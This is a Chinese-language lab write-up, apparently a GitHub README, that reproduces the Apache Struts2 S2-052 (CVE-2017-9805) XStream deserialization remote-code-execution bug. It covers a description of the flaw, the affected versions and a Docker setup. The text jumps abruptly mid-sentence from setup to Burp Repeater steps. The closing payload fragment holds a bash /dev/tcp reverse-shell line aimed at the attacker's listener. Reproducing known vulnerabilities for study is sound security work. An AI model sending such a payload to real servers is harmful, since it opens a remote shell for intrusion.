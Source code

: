 # Apache Struts2 S2-052(CVE-2017-9805)远程代码执行漏洞

## 0x00 漏洞描述

`Apache Struts`是美国阿帕奇（Apache）软件基金会负责维护的一个开源项目，是一套用于创建企业级`Java Web`应用的开源MVC框架。

`Struts2`是一个基于MVC设计模式的Web应用框架，它本质上相当于一个servlet，在MVC设计模式中，`Struts2`作为控制器(Controller)来建立模型与视图的数据交互

2017年9月5日，Apache Struts发布最新安全公告，Apache Struts2的`REST`插件存在远程代码执行的高危漏洞，该漏洞由lgtm.com的安全研究员汇报，漏洞编号为CVE-2017-9805（S2-052）。

## 0x01 漏洞影响

启用Struts REST插件并使用XStream组件对XML进行反序列操作时，未对数据内容进行有效验证，可被攻击者进行远程代码执行攻击(RCE)。

实际场景中存在一定局限性，需要满足一定条件(如要求jdk版本较新)，非struts本身默认开启的组件。

### 影响版本

* Version 2.5.0 to 2.5.12
* Version 2.1.2 to 2.3.33

## 0x02 环境搭建

* Ubuntu 14.04.5
* JDK 8u151
* Struts 2.5.12
* Apache Tomcat 8.0.46

通过建立docker容器来搭建实验环境，保证复现过程的安全性和便
携性。在docker环境中部署好Apache Tomcat，Struts 2以及Java等基础环境。

* 运行以下命令拉取docker镜像

``` bash
sudo -s # docker 需要以root身份运行
docker pull vancir/s2-052:2.5.12 # 从docker cloud上拉取仓库vancir/s2-052(struts2版本为2.5.12)到本地
```

* 或使用dockerfile手动生成docker镜像

由于`JDK 8u151`文件较大，因此首先需要使用者从[Oracle官网](http://www.oracle.com/technetwork/java/javase/downloads/jdk8-downloads-2133151.html)下载并移动到`src`文件夹下(md5sum: `774d8cb584d9ebedef8eba9ee2dfe113`  jdk-8u151-linux-x64.tar.gz)。

然后切换到dockerfile文件所在路径，运行以下命令
er.net/burp/freedownload)下载安装)，切换到`Repeater`选项卡

将`payload.xml`里的内容全部复制粘贴到`Request`内容框中，并设置右上角的`Target`为`127.0.0.1:80`

这里需要对`payload.xml`的以下内容进行改动，以保证服务器反弹的shell能被我们接收到。

``` xml
<string>bash -i &gt;&amp; /dev/tcp/10.30.178.227/8001 0&gt;&amp;1</string>
```
